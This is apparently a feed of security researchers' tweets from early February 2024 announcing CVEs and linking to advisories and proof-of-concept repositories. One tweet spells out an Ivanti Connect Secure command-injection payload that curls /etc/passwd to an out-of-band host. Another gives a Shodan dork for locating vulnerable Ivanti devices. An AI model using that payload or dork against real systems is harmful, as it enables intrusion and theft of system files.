

# Dinosn
**https://twitter.com/Dinosn/status/1754366907019387156 _at 2024-02-05, 04:50:39_**
<blockquote>
Escaping the Sandbox: CVE-2024-21399 Microsoft Edge RCE Vulnerability https://t.co/KAxwU9XRfK
</blockquote>

* https://securityonline.info/escaping-the-sandbox-cve-2024-21399-microsoft-edge-rce-vulnerability/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---

# htrowii
**https://twitter.com/htrowii/status/1754187925968032134 _at 2024-02-04, 16:59:27_**
<blockquote>
Got a working POC for CVE-2024-23208 UaF in one app. It uses the keyboard extension for the receiver.
Instructions to crash your phone:
Press go
Open the keyboard
Clear the app
Github: https://t.co/LXA6yW5Ul5
</blockquote>

* https://github.com/hrtowii/CVE-2024-23208-test

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>76</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1753950145580879883 _at 2024-02-04, 01:14:36_**
<blockquote>
RT @infosec_au: The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1753808306668195911 _at 2024-02-03, 15:50:59_**
<blockquote>
RT @infosec_au: The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753728099873693886 _at 2024-02-03, 10:32:16_**
<blockquote>
CVE-2023-31505: Schlix CMS Flaw Exposes Websites to RCE, No Patch Available https://t.co/VHNFaVvtCC
</blockquote>

* https://securityonline.info/cve-2023-31505-schlix-cms-flaw-exposes-websites-to-rce-no-patch-available/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1753706987739845020 _at 2024-02-03, 09:08:22_**
<blockquote>
RT @DhiyaneshDK: 🚨 CVE-2024-21893 - Ivanti SAML - Server Side Request Forgery (SSRF) - [HIGH]

Nuclei Template : https://t.co/55uoZubwnV @p…
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-21893.yaml

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# DhiyaneshDK
**https://twitter.com/DhiyaneshDK/status/1753704828457377805 _at 2024-02-03, 08:59:48_**
<blockquote>
🚨 CVE-2024-21893 - Ivanti SAML - Server Side Request Forgery (SSRF) - [HIGH]

Nuclei Template : https://t.co/55uoZubwnV @pdnuclei

#hackwithautomation #bugbounty #cve2023 #Ivanti https://t.co/ftGTQudUhm
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-21893.yaml

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>235</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1753703040597770241 _at 2024-02-03, 08:52:41_**
<blockquote>
💀 SSRF leading to RCE in Ivanti Connect Secure. (CVE-2024-21893)

Dork for Shodan:
 http.favicon.hash:-1439222863 html:"welcome.cgi?p=logo"

#web #cve #ssrf #rce #dork #bug https://t.co/rYEjcH9AFA
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>222</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1753694315220554187 _at 2024-02-03, 08:18:01_**
<blockquote>
RT @TheHackersNews: ⚡ #Mastodon users, beware!

A critical security flaw (CVE-2024-23832) affecting the decentralized social network could…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753677852807987514 _at 2024-02-03, 07:12:36_**
<blockquote>
RT @infosec_au: The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved wit…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1753672901675426196 _at 2024-02-03, 06:52:56_**
<blockquote>
⚡ #Mastodon users, beware!

A critical security flaw (CVE-2024-23832) affecting the decentralized social network could allow attackers to impersonate and take over any account.

Find details here → https://t.co/OOB8mDNCQX

#cybersecurity #hacking
</blockquote>

* https://thehackernews.com/2024/02/mastodon-vulnerability-allows-hackers.html

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>181</code></td>
<td>Favorites: <code>243</code></td>
</tr></table>

---

# infosec_au
**https://twitter.com/infosec_au/status/1753666094546780326 _at 2024-02-03, 06:25:53_**
<blockquote>
The SSRF/auth bypass affecting Ivanti Pulse Connect Secure (CVE-2024-21893), is a great example of what can be achieved with a fully blind SSRF vulnerability (RCE).
 
Read the @assetnote blog here which includes a  reliable payload and generation steps: https://t.co/cOYpmbWHrS
</blockquote>

* https://www.assetnote.io/resources/research/ivantis-pulse-connect-secure-auth-bypass-round-two

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>365</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1753614303347810658 _at 2024-02-03, 03:00:05_**
<blockquote>
Analysis of VirtualBox CVE-2023-21987 and CVE-2023-21991 https://t.co/iR0dIHO0WL #pentesting  #VirtualBox  #cybersecurity #Infosec https://t.co/3iTpVsxMOE
</blockquote>

* https://qriousec.github.io/post/vbox-pwn2own-2023/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1753562825958567981 _at 2024-02-02, 23:35:31_**
<blockquote>
RT @stephenfewer: We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivan…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1753559912779546954 _at 2024-02-02, 23:23:57_**
<blockquote>
CVE-2024-21893 Ivanti Connect Secure  SSRF to CVE-2024-21887 RCE 

https://t.co/gQGmC9Zb8n

https://t.co/G2hE2Ie9kD

http://127.0.0.1:8090/api/v1/license/keys-status/;curl -X POST -d @/etc/passwd https://t.co/f1OC82e4PX; https://t.co/0BKDAAU9E3
</blockquote>

* https://github.com/h4x0r-dz/CVE-2024-21893.py
* https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis
* http://xxxxxxxx.oastify.com

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>478</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753517415839719573 _at 2024-02-02, 20:35:05_**
<blockquote>
RT @stephenfewer: We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivan…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1753512744483954877 _at 2024-02-02, 20:16:31_**
<blockquote>
RT @stephenfewer: We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivan…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# stephenfewer
**https://twitter.com/stephenfewer/status/1753506445377585459 _at 2024-02-02, 19:51:29_**
<blockquote>
We have published our AttackerKB @rapid7 analysis for CVE-2024-21893, an SSRF vulnerability in the SAML component of Ivanti Connect Secure, that has recently been exploited in the wild, allowing attackers bypass the mitigation for an earlier exploit chain. https://t.co/tVgUCrp1KH
</blockquote>

* https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1753447680578331049 _at 2024-02-02, 15:57:59_**
<blockquote>
RT @TheHackersNews: Hackers could write ANY file on your #GitLab server while creating a workspace. This critical flaw (CVE-2024-0402) affe…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1753447051361484906 _at 2024-02-02, 15:55:29_**
<blockquote>
RT @TheHackersNews: 🚨 A new glibc flaw (CVE-2023-6246) gives attackers root access on #Linux.

This high-severity #vulnerability impacts ma…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>162</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1753447031929241959 _at 2024-02-02, 15:55:24_**
<blockquote>
RT @TheHackersNews: Hackers could write ANY file on your #GitLab server while creating a workspace. This critical flaw (CVE-2024-0402) affe…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1753438255545192474 _at 2024-02-02, 15:20:32_**
<blockquote>
CVE-2024-20931 Oracle A RCE vuln based on Weblogic T3\IIOP protocol
https://t.co/JhrEZpYniM
</blockquote>

* https://github.com/GlassyAmadeus/CVE-2024-20931

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>165</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1753432473051001251 _at 2024-02-02, 14:57:33_**
<blockquote>
CVE-2024-20931: A new attack surface for JNDI injection.

ref
https://t.co/BvXEisMnfZ https://t.co/QbRKPCd8bE
</blockquote>

* https://glassyamadeus.github.io/2024/01/31/CVE_2024_20931/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# phithon_xg
**https://twitter.com/phithon_xg/status/1753382939587760271 _at 2024-02-02, 11:40:43_**
<blockquote>
CVE-2024-21626 runc container escape can be exploited on docker build if you can control the Docker file. https://t.co/7PYxzOVGCu
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>125</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1753371723762954673 _at 2024-02-02, 10:56:09_**
<blockquote>
RT @lobuhisec: Kubernetes PoC for CVE-2024-21626:

apiVersion: v1
kind: Pod
metadata:
  name: cve202421626
spec:
  containers:
  - name: ub…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1753201969206825131 _at 2024-02-01, 23:41:37_**
<blockquote>
CVE-2024-21733: Generation of Error Message Containing Sensitive Information vulnerability in Apache Tomcat.This issue affects Apache Tomcat: from 8.5.7 through 8.5.63, from 9.0.0-M11 through 9.0.43. Users https://t.co/OZIziCU8LS
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1753173344134857135 _at 2024-02-01, 21:47:52_**
<blockquote>
RT @CISACyber: 🚨 New Ivanti software updates address previously noted #CVE-2023-46805 &amp; CVE-2024-21887 as well as two newly identified vuln…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1753001666033467766 _at 2024-02-01, 10:25:41_**
<blockquote>
Millions of Routers at Risk: CVE-2024-21833 Threatens TP-Link Devices https://t.co/fVgEKAQf8f
</blockquote>

* https://securityonline.info/millions-of-routers-at-risk-cve-2024-21833-threatens-tp-link-devices/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>188</code></td>
</tr></table>

---

# 0xdea
**https://twitter.com/0xdea/status/1752941316055486899 _at 2024-02-01, 06:25:52_**
<blockquote>
CVE-2023-6246: Heap-based buffer #overflow in the #glibc's syslog()

* another awesome vuln/xdev by @qualys 

* love the reference to @solardiz’s exploit from 1997 at https://t.co/kT1u2KyDsR 

* snprintf() return value behavior is a common source of bugs

https://t.co/hxf0bJIK89
</blockquote>

* http://insecure.org
* https://www.qualys.com/2024/01/30/cve-2023-6246/syslog.txt

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

